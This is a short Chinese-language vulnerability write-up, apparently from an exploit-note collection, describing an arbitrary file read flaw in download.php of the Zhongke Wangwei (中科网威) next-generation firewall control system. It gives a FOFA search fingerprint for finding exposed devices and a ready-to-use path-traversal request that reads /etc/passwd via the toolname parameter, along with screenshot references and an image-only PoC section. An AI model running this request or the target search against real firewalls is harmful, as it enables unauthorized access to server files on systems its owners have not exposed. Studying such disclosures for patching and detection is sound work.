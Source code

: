 # 中科网威-下一代防火墙控制系统-download.php-任意文件读取漏洞

## 漏洞描述

中科网威-下一代防火墙控制系统-download.php-任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

> [!NOTE]
>
> 中科网威 下一代防火墙控制系统

## FOFA

> [!NOTE]
>
> body="Get_Verify_Info(hex_md5(user_string)."

## 漏洞复现

登录页面如下

![image-20210531184103009](中科网威-下一代防火墙控制系统-download.php-任意文件读取漏洞.assets/16273636295532339.jpg)

漏洞存在于 download.php

![image-20210602161941678](中科网威-下一代防火墙控制系统-download.php-任意文件读取漏洞.assets/1627363629839135.jpg)

任意点击后抓包，更改 **toolname** 参数

```
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![image-20210602162110747](中科网威-下一代防火墙控制系统-download.php-任意文件读取漏洞.assets/162736363014247.jpg)

## Goby & POC

![image-20210602162300324](中科网威-下一代防火墙控制系统-download.php-任意文件读取漏洞.assets/16273636304801128.jpg)
